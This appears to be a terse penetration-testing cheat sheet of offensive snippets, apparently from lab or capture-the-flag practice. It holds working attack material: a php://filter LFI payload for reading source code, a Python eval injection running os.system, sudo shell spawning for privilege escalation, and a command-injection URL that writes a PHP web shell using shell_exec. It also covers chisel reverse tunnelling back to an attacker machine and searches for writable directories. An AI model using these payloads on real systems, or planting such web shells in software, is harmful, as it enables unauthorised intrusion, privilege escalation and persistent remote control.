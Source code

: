 ### php wrapper to see php pages during LFI
```

	/home.php?url=php://filter/convert.base64-encode/resource=home.php

```

### to sudo with particular user rights
```
	sudo -u [user] /bin/bash

```


#### exploiting python apps for privledge escalation
```
give input as
	eval('__import__("os").system("id")')

```

### find writable directories in the system
```
	find / -perm -2 -type d 2>/dev/null
```

### exploit php command execution vulnerability
```
http://192.168.229.129:8/breach3/thebobscloudhostingllc/livechat.php?searcher=echo'<?php echo shell_exec($_GET['e']); ?>' >test.txt

```

### reverse forward a port through reverse shell
```

on your machine
	chisel server --reverse --port 8000

on attacking machine
	./chisel client 10.14.13.211:8000 R:2049:127.0.0.1:2049

```

### search for a particular string
```
grep -iRl 'pat' /

```


##### directory enumeration is affected by ssl, use appropriate domain before enumeration
